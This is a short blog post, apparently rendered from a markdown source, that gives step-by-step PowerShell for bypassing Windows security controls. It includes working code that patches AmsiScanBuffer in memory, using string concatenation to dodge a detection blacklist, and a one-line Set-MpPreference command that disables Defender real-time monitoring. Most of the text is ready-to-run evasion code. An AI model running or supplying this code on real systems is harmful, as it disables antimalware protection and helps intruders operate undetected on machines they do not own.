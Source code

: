 ```yaml
---
title: Bypassing Windows Defender and AMSI 2019 With Privileges
date: 2019-09-23
draft: false
description: How to bypass Windows Defender and AMSI
---
```

These steps assume you have access to powershell with admin rights. For the record, I’m not sure if this will work on a domain joined machine where conflicting policies may have been set. The AMSI script works by patching the AMSI DLL in memory, which means it’s not persistent and does not require privileges. The Defender command changes a registry value, which means it is persistend and it also requires privileges.

Disable AMSI

`$win32 = @"`  
`using System.Runtime.InteropServices;`  
`using System;`  
`public class Win32 {`  
`[DllImport("kernel32")]`  
`public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);`  
`[DllImport("kernel32")]`  
`public static extern IntPtr LoadLibrary(string name);`  
`[DllImport("kernel32")]`  
`public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect`  
`);`  
`}`  
`"@`  
`Add-Type $win32`  
`# String Concatenation to bypass blacklist`  
`$ptr = [Win32]::GetProcAddress([Win32]::LoadLibrary("amsi.dll"), "AmsiScan"+"Buffer")`  
`$b = 0`  
`[Win32]::VirtualProtect($ptr, [UInt32]5, 0x40, [Ref]$b)`  
`$buf = New-Object Byte[] 7`  
`$buf[0] = 0x66; $buf[1] = 0xb8; $buf[2] = 0x01; $buf[3] = 0x00; $buf[4] = 0xc2; $buf[5] = 0x18; $buf[6] = 0x00;`  
`[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 7)`

Credit to [Avi Gimpel](https://web.archive.org/web/20220520135811/https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/), the exact code in his blog post no longer works because it contains “AmsiScanBuffer” but with a little concatenation it still works great!

Disable Defender

`PowerShell Set-MpPreference -DisableRealtimeMonitoring 1`

Credit to [Shawn Brink](https://web.archive.org/web/20220520135811/https://www.tenforums.com/tutorials/3569-turn-off-windows-defender-real-time-protection-windows-10-a.html#option5)